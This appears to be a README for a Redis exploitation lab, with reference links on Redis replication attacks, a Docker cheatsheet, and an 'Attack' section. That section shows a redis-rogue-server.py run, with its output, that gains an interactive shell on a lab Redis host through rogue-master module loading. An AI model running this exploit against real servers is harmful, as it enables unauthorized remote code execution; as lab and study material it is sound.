 02/10/2021
# Reference
Redis master-slave Installation
https://laptrinh.vn/books/redis/page/huong-dan-cai-dat-redis-master-slave-tren-centos-7
Redis attacks:
https://book.hacktricks.xyz/pentesting/6379-pentesting-redis
https://paper.seebug.org/977/
https://medium.com/@knownsec404team/rce-exploits-of-redis-based-on-master-slave-replication-ef7a664ce1d0
https://www.youtube.com/watch?v=Jmv-0PnoJ6c
https://2018.zeronights.ru/wp-content/uploads/materials/15-redis-post-exploitation.pdf
https://github.com/n0b0dyCN/redis-rogue-server



# Build
```
.\start.bat
```
# Attack
```
root@attack-server:/opt/redis-rogue-server# python3 redis-rogue-server.py --rhost 192.168.0.4 --lhost 192.168.0.5
______         _ _      ______                         _____
| ___ \       | (_)     | ___ \                       /  ___|
| |_/ /___  __| |_ ___  | |_/ /___   __ _ _   _  ___  \ `--.  ___ _ ____   _____ _ __
|    // _ \/ _` | / __| |    // _ \ / _` | | | |/ _ \  `--. \/ _ \ '__\ \ / / _ \ '__|
| |\ \  __/ (_| | \__ \ | |\ \ (_) | (_| | |_| |  __/ /\__/ /  __/ |   \ V /  __/ |
\_| \_\___|\__,_|_|___/ \_| \_\___/ \__, |\__,_|\___| \____/ \___|_|    \_/ \___|_|
                                     __/ |
                                    |___/
@copyright n0b0dy @ r3kapig

[info] TARGET 192.168.0.4:6379
[info] SERVER 192.168.0.5:21000
[info] Setting master...
[info] Setting dbfilename...
[info] Loading module...
[info] Temerory cleaning up...
What do u want, [i]nteractive shell or [r]everse shell: i
[info] Interact mode start, enter "exit" to quit.
[<<] id
[>>] =☺uid=998(redis) gid=996(redis) groups=996(redis)
[<<] whoami
[>>] redis
```

# Docker command cheatsheet

Build image from Dockerfile
```
docker build -t redis-master .
docker run -itd --name redis-master redis-master
docker exec -it redis-master bash
```
Build docker-compose (create image, create and start container)
```
docker-compose up -d
```
Clean docker-compose (Stop container, delete container, delete image)
```
docker-compose down --rmi all
```
docker-compose
```
docker-compose ps
docker-compose stop
docker-compose start
```
clear build cache
```
docker builder prune
```